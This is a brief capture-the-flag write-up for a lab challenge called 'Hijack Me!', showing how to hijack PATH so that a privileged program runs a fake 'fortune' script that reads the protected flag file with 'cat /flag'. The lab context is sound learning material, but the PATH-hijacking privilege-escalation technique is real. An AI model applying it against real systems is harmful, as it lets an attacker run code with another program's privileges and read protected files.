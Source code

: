 # Hijack Me!

`challenge/run` runs a binary called `fortune`

Make a shell script containing `cat /flag`, name it "fortune" and give it necessary permissions

Add the directory of binary to path, and run the challenge to claim the flag:

```shell
export PATH=`pwd`:$PATH
/challenge/run
```
